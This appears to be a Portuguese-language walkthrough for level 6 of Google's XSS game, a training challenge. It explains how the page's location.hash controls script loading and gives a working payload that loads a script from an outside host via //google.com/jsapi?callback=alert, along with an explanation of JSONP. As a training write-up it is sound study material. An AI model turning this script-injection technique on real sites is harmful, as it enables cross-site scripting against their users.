



## Descrição da Missão

Aplicações web complexas às vezes têm a capacidade de carregar dinamicamente bibliotecas JavaScript com base no valor de seus parâmetros de URL ou parte do location.hash.

Isso é muito difícil de acertar -- permitir que a entrada do usuário influencie a URL ao carregar scripts ou outros tipos de dados potencialmente perigosos, como XMLHttpRequest, frequentemente leva a vulnerabilidades sérias. Objetivo da Missão Encontre uma maneira de fazer com que a aplicação solicite um arquivo externo que faça com que execute um alert().

## Dicas

1. Veja como o valor do fragmento de localização (após #) influencia a URL do script carregado.
2. A verificação de segurança na URL do gadget é realmente à prova de falhas?
3. Às vezes, quando estou frustrado, sinto vontade de gritar...
4. Se você não consegue hospedar facilmente seu próprio arquivo JS malicioso, veja se google.com/jsapi?callback=foo pode ajudar aqui.

## Passo 1: Analisando a URL e o fragmento de localização

- após `#` temos `/static/gadget.js`. Este é o "fragmento de localização" que pode estar influenciando o carregamento do script.

Precisamos observar como o fragmento após `#` (neste caso, `/static/gadget.js`) está sendo usado na página. A mensagem "Couldn't load gadget from /static/gadget.js" indica que a aplicação está tentando carregar um script a partir dessa URL.

- Abrindo o Inspect, com a finalidade de verificar se há qualquer comportamento ou mensagens adicionais na página relacionadas ao carregamento de scripts, o console indica o seguinte erro `GET https://xss-game.appspot.com/static/gadget.js net::ERR_ABORTED 404 (Not Found)`

- Isso confirma que o script `/static/gadget.js` realmente não está disponível. É um indício de que a aplicação está tentando carregar scripts com base no fragmento da URL, mas não está encontrando o arquivo especificado. Podemos explorar e aproveitar esse erro para carregar um script que execute um `alert()`

## Passo 2: Manipulando o Fragmento de URL

Podemos manipular o fragmento da URL para carregar um script de uma fonte externa. A dica mencionou usar algo como `google.com/jsapi?callback=foo`.  Pesquisei como modificar o fragmento da URL para apontar para um script externo que pode executar um `alert()`. E encontrei um script do Google para isso. Vamos substituir então o callback=foo para o seguinte:

`https://xss-game.appspot.com/level6/frame#//google.com/jsapi?callback=alert`

E assim conseguimos passar de fase

## Explicação

- **Fragmento da URL (`location.hash`)**: No contexto desse desafio, estamos tentando explorar a capacidade da aplicação de carregar scripts de URLs externas. Para isso podemos retirar o `/static/gadget.js` porque este fragmento da URL após o `#` não é enviado ao servidor, mas é acessível pelo JavaScript no cliente.

- **Manipulação do Fragmento**: Ao alterar o fragmento para uma URL externa como `//google.com/jsapi?callback=alert`, conseguimos redirecionar a aplicação para carregar um script de uma fonte externa. O `//` no início da URL faz com que o navegador interprete isso como uma URL completa, ignorando o domínio original.

- **Callback**: Em muitos serviços web, especialmente APIs, o parâmetro `callback` especifica uma função de retorno chamada (callback function). Essa função é chamada quando o script carregado é executado. Isso é comum em JSONP (JSON with Padding), que permite carregar dados de um servidor em um domínio diferente. Quando você solicita `google.com/jsapi` com o parâmetro `callback`, o servidor responde com um script que chama a função especificada no parâmetro `callback` com os dados carregados. Usando `callback=alert`, estamos explorando essa funcionalidade de JSONP para criar um alerta na página